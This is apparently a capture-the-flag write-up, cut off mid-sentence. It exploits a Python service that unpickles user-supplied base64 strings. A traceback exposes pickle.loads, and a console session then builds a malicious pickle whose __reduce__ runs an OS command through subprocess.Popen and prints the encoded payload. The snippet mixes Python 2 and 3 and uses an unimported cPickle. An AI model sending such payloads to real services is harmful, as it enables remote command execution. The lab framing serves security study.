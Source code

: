 
    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 2
    Please enter the encrypted string here: gANYAgAAAHFxcQAu
    [+] Message decrypted: qq

Then we send a malformed input for the decryption, that generate an error:

    :::text
    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 2
    Please enter the encrypted string here: gANYAgAAAHFxc
    Traceback (most recent call last):
      File "/usr/lib/python3.6/encodings/base64_codec.py", line 19, in base64_decode
        return (base64.decodebytes(input), len(input))
      Fle "/usr/lib/python3.6/base64.py", line 546, in decodebytes
        return binascii.a2b_base64(s)
    binascii.Error: Incorrect padding

    The above exception was the direct cause of the following exception:

    Traceback (most recent call last):
      File "/home/challenger/app.py", line 46, in <module>
        main()
      File "/home/challenger/app.py", line 37, in main
        dec = decrypt(to_dec)
      File "/home/challenger/app.py", line 24, in decrypt
        return pickle.loads(codecs.decode(to_dec.encode(), "base64"))
    binascii.Error: decoding with 'base64' codec failed (Error: Incorrect padding)i

The error disclose the use of the python pickle which are know to be vulnerable
an allowing command execution.

We create a pickle to execute OS commands on the system:

    :::text
    >>> import pickle
    >>> import subprocess
    >>> import base64
    >>>
    >>> class RunBinSh(object):
    ...   def __reduce__(self):
    ...     return (subprocess.Popen, (('ls',),))
    ...
    >>> print base64.b64encode(cPickle.dumps(RunBinSh()))
    b'gASVIwAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwCbHOUhZSFlFKULg=='


We decode the generate pickle
